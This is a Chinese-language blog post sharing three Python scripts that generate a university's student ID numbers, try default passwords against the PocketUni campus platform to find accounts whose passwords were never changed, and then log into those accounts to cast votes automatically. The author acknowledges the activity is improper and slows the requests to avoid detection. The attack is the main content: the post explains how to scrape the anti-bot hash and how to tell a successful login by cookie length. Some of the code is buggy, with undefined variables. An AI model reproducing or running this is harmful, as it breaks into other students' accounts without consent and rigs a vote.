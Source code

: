 前言：因为班级参加学校一些活动在PU上举办，但是又不想接受这种推广，遂花几天用python3写了个自动投票，想学习的可以一起探讨下，但是这个代码恐怕不写python的人也用不了。。。

写博客主要为了给自己做笔记，省得老忘记实现过程

准备工作：学校各学院的学号加初始密码，总有一些宝宝用初始密码，而学号直接推倒就可得出。

要实现的东西：1、实现自动登录，从大量学号中跑出可登录的学号（使用初始密码的用户）并保存留用；2、利用这些学号根据投票活动选择出要投票的学院的PID；3、模仿JS点击事件投票。


----------


鉴于这也不算很正当行为，防止给PU服务器造成负担，爬虫每天尽量慢尽量少的访问PU服务器。。。也是防止被人发现刷票


----------


批量生成学号：

	# huoqunumber.py 用于创建number初始列表 
	# 保存在startnumber.txt里面
	
	import os
	
	fileObject = open("startnumber.txt", "a")
	numberIn = [15040100, 15040200, 15040500, 15040700, 15040900, 15040300, 15040400, 15040600, 15040800]
	for i in range(0, 1):
		for x in range(1,39):
			numberIn[i] = numberIn[i] + 1
			numberOut = "B" + str(numberIn4[i])
			fileObject.write(numberOut)
			# fileObject.write("\n")
	
	fileObject.close()
	
这部分主要就是I/O流的操作，number数组存放各学院班级的第一个学号，依次生成整个院的学号并保存待用。


----------


爬虫尝试登陆PU并保存可以登录的账号：

	#numbersaved.py 用于获取可登录number列表
	# 保存在numberSaved.txt

	import requests
	import urllib.request
	import re
	import configparser
	from pprint import pprint
	from bs4 import BeautifulSoup 
	
	# headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11'} # 浏览器头
	headers = {'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/535.11 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/535.11'} #手机headers
	
	# 拿到不断更新的hash
	def getHash(): 
	    firstURL = "http://pocketuni.net/njupt/login/"
	    request = urllib.request.Request(firstURL, headers=headers)
	    response = urllib.request.urlopen(request)
	    content = response.read()
	    pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	    __hash__ = pattern.findall(str(content, encoding = "utf-8"))
	
	    return __hash__[0]
	
	# 登录并返回cookieLen
	def create_session(loginURL, data):
	
	    session = requests.session()
	    login = session.post(loginURL, loginData, headers=headers)
	    cookiesLen = len(login.cookies)
	    print(login.cookies)
	    return session, cookiesLen
		
	if __name__ == '__main__':
	    count = 0 # 统计拿到多少可用账号
	    loginUrl = "http://pocketuni.net/index.php?app=home&mod=Public&act=doLogin&school=njupt"
	    file_object = open('B140413.txt', 'r')
	    file_number = open("B140413login.txt", "a")
	    file_nonumber = open("B140413nologin.txt", "a")
	    school = "南京邮电大学"
	    sid = "592"
	    password = "123456"
	    login = "登 录"
	    while True: # 按字节读文件
	        try:
	            number = file_object.read(9)
	            print(type(number))
	            __hash__ = getHash()
	            loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
	            session,cookiesLen = create_session(loginUrl, loginData) 
	            print(cookiesLen)
	            if cookiesLen == 0: # 通过判断cookieLen得知是否登录成功
	                print(cookiesLen)
	                file_number.write(number + "\n")
	                count += 1
	                
	        except Exception as e:
	            print(e)
	        if not number:
	            break
	    file_object.close()
	    file_number.close()
	    print("登录了" + str(count) + "个number！") 
```
这里写代码片
```
	    
登录部分主要是从上一步骤中拿到的文件中按字符读取学号，并带上浏览器的头headers向form表单post登录所需信息

```
loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
```

难点一：其中hash是为了防止恶意爬取做的随机数，每次刷新网页就会更新，所以首先要解决的就是动态获取hash的值，方法：
拿到登录页面的html并正则匹配出hash的值并返回，这个时候要注意的就是拿到的html是字节流，也就是所谓的乱码，我们要进行转换成str，然后才可以进行匹配，如果这里有疑惑可以查看此处：python3 decode与encode

> http://www.cnblogs.com/tingyugetc/p/5727383.html

	pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	__hash__ = pattern.findall(str(content, encoding = "utf-8"))

难点二：如何判断是否登录成功。最开始我以为只要拿到状态码200即是登录成功，其实只要对方服务器进行回应那就是200了，所以这个方法显然不能证明成功登陆了，后来发现登录成功与否拿到的cookie的长度是不一样的，当cookieLen=0的时候是成功登陆否则是不成功。

登录：

    session = requests.session()
    login = session.post(loginURL, loginData, headers=headers)

获取cookieLen：

	cookiesLen = len(login.cookies)
判断一下cookieLen，若为0则证明可以登录保存下来。


----------


接下来是模仿JS发送投票请求（PU要求没人投满六个才算数）
	
	# pachongfuben.py
	
	import requests
	import urllib.request
	import re
	import configparser
	from pprint import pprint
	from bs4 import BeautifulSoup 
	
	# headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11'}
	headers = {'User-Agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/535.11 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/535.11'}
	
	def getHash():
	    firstURL = "http://pocketuni.net/njupt/login/"
	    request = urllib.request.Request(firstURL, headers=headers)
	    response = urllib.request.urlopen(request)
	    content = response.read()
	    pattern = re.compile(r'name=\"__hash__\" value=\"(.*?)\"', re.S)
	    __hash__ = pattern.findall(str(content, encoding = "utf-8"))
	    return __hash__[0]
	
	def create_session(loginURL, data):
	
	    session = requests.session()
	    login = session.post(loginURL, loginData, headers=headers)
	    print(login.cookies)
	    return session
	# 投票函数
	def toupiao(toupiaoUrl, session, toupiaoData):
	    login = session.post(toupiaoUrl, toupiaoData, headers = headers)
	    return login.cookies
	
	if __name__ == '__main__':
	    count = 0
	    loginUrl = "http://pocketuni.net/index.php?app=home&mod=Public&act=doLogin&school=njupt"
	    file_object = open('numbersaved.txt', 'rb')
	    school = "南京邮电大学"
	    sid = "592"
	    password = "111111"
	    login = "登 录"
	    
	    toupiaoUrl = "http://njupt.pocketuni.net/index.php?app=event&mod=Front&act=vote"
	    pids = ["98359", "99982", "99957", "99420", "93253", "98681"]

	    while True:
	        try:
	            number = file_object.read(9)
	            __hash__ = getHash()
	            loginData = {'school':school, 'sid':sid, 'number':number, 'password':password, 'login':login, '__hash__':__hash__[0]}
	            session = create_session(loginUrl, loginData) 
	            for pid in pids:
	                toupiaoData = {'id':idd, 'pid':pid}
	                toupiao(toupiaoUrl, session, toupiaoData)
	                
	        except Exception as e:
	            print(e)
	        count+=1
	        if not number:
	            break
	    file_object.close()
	    print("投票数：" + str(count))
	
此处发送登录请求与huoqunumber.py是相同的，此处读取的账号列表是huoqunumber.py得到的可登录列表。

向toupiaourl页面的form表单带headers发送数据：
	
    login = session.post(toupiaoUrl, toupiaoData, headers = headers)

因为要投票满6个院，所以遍历pid，此处的pid则是学院的唯一标识，一定要找到自己的学院并右键检查拿到pid放入列表中！
	
	for pid in pids:
		toupiaoData = {'id':idd, 'pid':pid}
		toupiao(toupiaoUrl, session, toupiaoData)



----------

重要的三个py文件已经贴出，使用顺序：

	huoqunumber.py --> numbersaved.py --> pachongfuben.py
huoqunumber.py得到的初始化学号，numbersaved.py利用其得到可以登录的学号（即初始化密码没有修改的同学），pachongfuben.py利用numbersaved.py拿到的可登录账号登陆并进行投票。


----------


结语：当时三天的纠结忘记的差不多了，就记得几个重要的点，代码也是随时想到哪里写到哪里凌乱的不行。。。
